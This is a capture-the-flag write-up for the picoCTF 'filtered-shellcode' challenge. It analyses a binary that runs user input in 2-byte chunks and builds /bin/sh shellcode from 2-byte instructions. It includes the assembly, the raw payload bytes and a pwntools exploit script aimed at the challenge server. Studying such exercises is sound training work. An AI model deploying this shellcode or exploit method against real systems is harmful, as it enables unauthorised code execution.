

# **filtered-shellcode (fun)**

## **Challenge Overview**

We are given a binary `fun` that reads user-provided input, executes it, and expects some kind of shellcode as input. The goal is to spawn a shell (`/bin/sh`) using x86 assembly.

---

## **Binary Analysis**

The main function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    _BYTE v4[1000]; // input buffer
    _BYTE v5[5];    // small control buffer
    int *p_argc;

    p_argc = &argc;
    setbuf(stdout, 0);
    v5[4] = 0;
    puts("Give me code to run:");
    
    *(_DWORD *)v5 = (unsigned __int8)fgetc(stdin);
    while (v5[0] != 10 && *(_DWORD *)&v5[1] <= 0x3E7u)
    {
        v4[*(_DWORD *)&v5[1]] = v5[0];
        v5[0] = fgetc(stdin);
        ++*(_DWORD *)&v5[1];
    }

    if ((v5[1] & 1) != 0)
        v4[(*(_DWORD *)&v5[1])++] = -112;

    execute(v4, *(_DWORD *)&v5[1]);
    return 0;
}
```

### Observations:

1. **Input buffer**: `_BYTE v4[1000]` stores user input.
2. **Control buffer `v5`**: Tracks bytes read.
3. **Execution**: Calls `execute(v4, length)` to execute the buffer.
4. **Restrictions**: The challenge enforces **2-byte instructions only**, so standard shellcode must be adapted.

The `execute()` function processes the buffer and injects padding to enforce **2-byte instruction rules**:

```c
for (i = 0; v8 > i; ++i)
{
    if ((int)i % 4 > 1)
        *((_BYTE *)v6 + i) = -112; // insert padding 0x90 (NOP)
    else
        *((_BYTE *)v6 + i) = *(_BYTE *)(v3 + a1);
}
```

This ensures only instructions aligned as **2-byte chunks** execute properly.

---

## **Shellcode**

We write a **2-byte compliant shellcode** to spawn `/bin/sh`.

Key points:

* Syscall `execve("/bin/sh", 0, 0)`
* Registers:

  * `eax` = syscall number 11 (`0xb`)
  * `ebx` = pointer to `/bin/sh` string
  * `ecx` = `0`
  * `edx` = `0`

Due to the 2-byte instruction restriction, we use `shl` repeatedly to assemble bytes of `/bin/sh` on the stack.

```asm
; Syscall number
xor eax, eax
mov al, 0x0b
xor ecx, ecx
xor edx, edx

; Push "/sh\x00"
xor ebx, ebx
mov bl, 0x68        ; 'h'
shl ebx              ; shift left repeatedly (2-byte instruction)
...
mov bh, 0x73        ; 's'
mov bl, 0x2f        ; '/'
push ebx
nop

; Push "/bin"
mov bh, 0x6e
mov bl, 0x69
shl ebx
...
mov bh, 0x62
mov bl, 0x2f
push ebx
nop

; Move stack pointer to ebx
mov ebx, esp

; Make the syscall
int 0x80
```

**Explanation of technique:**

* **`shl ebx`** is used repeatedly to shift bits into position.
* **`mov bl, ...` / `mov bh, ...`** sets individual bytes.
* **`push ebx`** places `/bin/sh` on the stack in **little-endian** order.
* `int 0x80` triggers the system call.

This way, the shellcode avoids null bytes and respects the 2-byte instruction restriction.

---

## **Exploit Script (Pwntools)**

```python
from pwn import *

elf = context.binary = ELF('./fun')
context.arch = 'i386'
context.log_level = 'info'

# Remote info
REMOTE_HOST = 'mercury.picoctf.net'
REMOTE_PORT = 28494

# Decide local vs remote
if args.REMOTE:
    p = remote(REMOTE_HOST, REMOTE_PORT)
else:
    p = process('./fun')

p.recvuntil("Give me code to run:")

payload = b"\x31\xC0\xB0\x0B\x31\xC9\x31\xD2\x31\xDB\xB3\x68\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xB7\x73\xB3\x2F\x53\x90\xB7\x6E\xB3\x69\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xB7\x62\xB3\x2F\x53\x90\x89\xE3\xCD\x80"
p.sendline(payload)
p.interactive()

```

**Run locally:**

```bash
python3 exploit.py
```

**Run remotely:**

```bash
python3 exploit.py REMOTE=1
```

---

